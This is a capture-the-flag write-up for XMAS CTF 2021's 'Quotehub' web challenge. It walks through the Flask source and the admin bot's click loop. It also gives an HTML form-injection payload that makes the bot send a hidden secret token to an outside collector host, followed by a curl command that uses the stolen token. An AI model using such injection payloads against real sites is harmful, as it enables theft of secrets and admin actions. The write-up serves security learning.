 # Quotehub

Here is my writeup of Quotehub challenge of XMAS CTF 2021.

- Challenge url: http://challs.xmas.htsp.ro:3007/
- Source code: [Source code](quotehub.zip)

![Challenge description](images/challenge_description.png)

## First look

![First look](images/first_look.png)

We can see a page with quotes, we can submit quotes so let's take a look.

![First look submit](images/first_look_submit.png)

We can submit a quote with our name, but we cannot see the result..

## First look at the code

There is a Dockerfile, a bot directory and files directory.

In the bot folder we can see a bot code made in Python so the challenge is a web-client challenge.

If we take a look to the source code we can see that there are 3 pages on the challenge:
- /
- /submit
- /quote/latest

```py
@app.route ('/', methods = ['GET'])
def index():
    return render_template ("index.html", quotes=quotes)


@app.route ('/submit', methods = ['GET', 'POST'])
def submit():
    if request.method == 'GET':
        return render_template ("submit.html")

    quote = request.form.get('quote')
    author = request.form.get('author')
    if not isinstance(quote, str) or not isinstance(author, str) or len(quote) > 256 or len(quote) < 8 or len(author) > 32 or len(author) < 4:
        return 'NOPE'

    quote_obj = {
        'text': quote,
        'author': author
    }
    pending_quotes.append(quote_obj)
    return render_template ("submit.html", message=f"Quote submitted successfully.")


@app.route ('/quote/latest', methods = ['GET', 'POST'])
def quote():
    global pending_quotes
    if request.method == 'GET':
        if request.cookies.get('admin_cookie', False) != ADMIN_COOKIE or len(pending_quotes) == 0:
            return 'NOPE'
        q = pending_quotes[0]
        pending_quotes = pending_quotes[1:]
        print("Admin viewing quote: ", q)
        return render_template ("quote_review.html", quote=q, SECRET_TOKEN=SECRET_TOKEN)

    action = request.form.get('action')
    secret = request.form.get('secret')
    if not isinstance(action, str) or action not in ['APPROVE', 'REJECT'] or secret != SECRET_TOKEN:
        return 'NOPE'

    if action == "REJECT":
        return redirect("/list", code=302)

    return "You did it! Here's your reward: " + FLAG
```

The /quote/latest isn't allowed to us and return a NOPE because we have not the ADMIN_COOKIE. If we take a look, we can see that the flag is displayed if our quote is APPROVE by someone who has the SECRET_TOKEN, so our purpose is to steal this SECRET_TOKEN.

## Starting exploit

In the bot code we can see that he clicks on the button first button with a red class.

```py
while True:
	try:
		# print("get /quote/latest", flush=True)
		driver.get('http://127.0.0.1:2000/quote/latest')
		
		# print("reject button - press", flush=True)
		rejectBtn = WebDriverWait(driver, 5).until(
			EC.presence_of_element_located((By.CLASS_NAME, "red"))
		)
		rejectBtn.click()

		# print("sleep 3", flush=True)
		time.sleep(3)
	except:
		pass
```

So we can perform a clickjacking by creating a fake button and form to get the form parameters because the SECRET_TOKEN is in default form:

```html
<form method="POST">
	<input type="hidden" name="secret" value="{{SECRET_TOKEN}}">
	<input class="btn green" type="submit" name="action" value="APPROVE">
    <input class="btn red" type="submit" name="action" value="REJECT">
</form>
```

Our payload will be:
```
<form method="POST" action="https://challenge.free.beeceptor.com"><input class="red" type="submit" name="action" value="APPROVE">
```

![Secret token](images/secret_token.png)

Yeah! We got our secret token: `4cb386b57ea526f9d72aa2fd76f97e143f1e51174b66cfe92ef0fbb5f4a20be71cf9f1463369305278aa4502fe34461c8a0e575d4c31aa31386177a68919e65a`

To finish we have to make a POST request to `/quote/latest` with an action and secret post parameters as the admin does.

`curl -X POST -d "action=APPROVE" -d "secret=4cb386b57ea526f9d72aa2fd76f97e143f1e51174b66cfe92ef0fbb5f4a20be71cf9f1463369305278aa4502fe34461c8a0e575d4c31aa31386177a68919e65a" http://challs.xmas.htsp.ro:3007/quote/latest`

![Flag](images/flag.png)

Here is our flag: `X-MAS{got_teh_secret-f8ba357874717b6142e8219b}`
